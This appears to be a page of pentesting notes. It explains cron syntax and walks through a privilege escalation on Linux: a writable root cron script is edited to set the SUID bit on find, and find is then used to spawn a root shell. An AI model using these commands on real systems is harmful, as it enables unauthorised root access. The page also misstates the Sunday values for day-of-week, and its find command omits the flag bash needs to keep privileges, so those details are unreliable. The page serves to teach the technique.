 # 4.4.3 CronJobs

## CronJobs

<details>

<summary>What is a CronJob?</summary>

**CronJobs** is a scheduled task or command that is automatically executed at specified intervals on a Unix-like operating system. The name "cron" comes from the Greek word "chronos," meaning time, and it is a time-based job scheduler in Unix-like operating systems.

Cron jobs are commonly used for automating repetitive tasks, system maintenance, or any task that needs to be performed at specific intervals. These tasks can include things like running scripts, backing up data, updating databases, or any other routine maintenance.

The schedule for a cron job is defined using a cron expression, which consists of five fields representing the minute, hour, day of the month, month, and day of the week. For example, a cron expression like "0 2 \* \* \*" would indicate a job that runs at 2:00 AM every day.

Here is a breakdown of the cron expression fields:

1st \*: Minute (0 - 59)

2nd \*: Hour (0 - 23)

3rd \*: Day of the month (1 - 31)

4th \*: Month (1 - 12)

5th \*: Day of the week (0 - 6, where both 0 and 6 represent Sunday).

After this there's a username (root) and path of command to execute (program path) and eventually an argument (arg1).

</details>

#### Example of CronJob definition

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

This is an example of CronJob in python language that execute a bash command on the system:

```python
#!/usr/bin/env python
import os
import sys
try:
   os.system('rm -r /home/new_user/disk_clean* ')
except:
    sys.exit()
```

E.g. considering that CronJob has maximum permissions (777):

```bash
*/1 *   * * *   root    /home/new_user/disk_cleaner.py
```

we can modify python script cronjob and execute command to escalate privilege for a normal user:

os.system(~~'rm -r /home/new\_user/disk\_clean\* ')~~ -> 'chmod u+s /usr/bin/find '

waiting 1 minute new\_user obtain SUID permissions for find command (ls -l /usr/bin/find) and executing **`find`** command we'll gain root privilege:

```bash
find /home -exec "/bin/bash" \;
```
